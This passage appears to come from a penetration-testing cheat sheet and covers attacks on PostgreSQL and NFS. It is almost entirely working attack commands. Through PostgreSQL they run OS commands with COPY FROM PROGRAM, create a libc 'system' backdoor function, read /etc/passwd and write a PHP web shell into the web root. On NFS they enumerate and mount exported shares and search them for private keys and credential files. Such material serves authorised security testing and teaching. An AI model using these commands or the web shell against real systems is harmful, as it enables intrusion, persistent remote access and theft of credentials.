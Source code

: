 ```sql
-- Command execution via COPY FROM PROGRAM
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;

-- Creating a backdoor function
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('whoami > /tmp/whoami.txt');
```

#### PostgreSQL File Operations

```sql
-- Reading files
CREATE TABLE demo(t text);
COPY demo FROM '/etc/passwd';
SELECT * FROM demo;

-- Writing files
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
```

## Attacking NFS (Port 2049)

### NFS Enumeration

```bash
# Basic scan
nmap -sV -p 2049 --script=nfs-* target.com

# Show exported shares
showmount -e target.com

# Check NFS version and info
rpcinfo -p target.com | grep nfs
```

### NFS Exploitation

#### Mounting and Exploring NFS Shares

```bash
# Create mount point
mkdir /tmp/mount

# Mount the share
mount -t nfs target.com:/share /tmp/mount

# Look for sensitive files
find /tmp/mount -name "*.conf" -o -name "*.key" -o -name "*.pem" -o -name "id_rsa"

# Check file permissions
ls -la /tmp/mount/
```

